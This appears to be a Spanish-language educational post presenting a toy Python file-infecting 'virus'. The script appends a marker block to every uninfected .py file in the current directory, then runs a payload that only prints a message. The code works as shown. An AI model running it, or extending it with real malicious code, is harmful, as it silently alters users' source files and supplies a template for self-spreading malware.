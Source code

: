 #### Ejemplo básico de un Virus en Python




> **Nota importante:** Me gustaría recordar que esto es solo educativo y no debe de usarse de forma maliciosa.
{: .prompt-warning }




```Python
import os
import time
import shutil

# Función para comprobar si el archivo ya ha sido infectado
def archivo_infectado(archivo):
    with open(archivo, 'r') as f:
        contenido = f.read()
    return "virus_infectado" in contenido

# Función para infectar un archivo
def infectar_archivo(archivo):
    virus_code = """
        # Aquí iría el código malicioso 
        print("Cybermemo estuvo aquí")
        # virus_infectado
"""
    with open(archivo, 'a') as f:
        f.write(virus_code)

# Función para propagar el virus a otros archivos Python en el mismo directorio
def propagar_virus():
    directorio_actual = os.getcwd()
    archivos = os.listdir(directorio_actual)
    
    for archivo in archivos:
        # Infectar solo archivos .py que no estén infectados
        if archivo.endswith(".py") and not archivo_infectado(archivo):
            print(f"Infectando {archivo}")
            infectar_archivo(archivo)
            time.sleep(1)  # Simula el retraso de propagación

# Función para ejecutar la carga maliciosa (payload)
def ejecutar_payload():
    print("Ejecutando payload: ¡Todo ha sido comprometido!")

# Función principal que controla la ejecución del virus
def ejecutar_virus():
    # Paso 1: Propagar el virus
    propagar_virus()

    # Paso 2: Activar el payload
    ejecutar_payload()

    # Paso 3: Continuar ejecutando el archivo original (simulación)
    print("Virus ejecutado correctamente.")
    time.sleep(2)

# Ejecutar el virus
if __name__ == "__main__":
    ejecutar_virus()
```
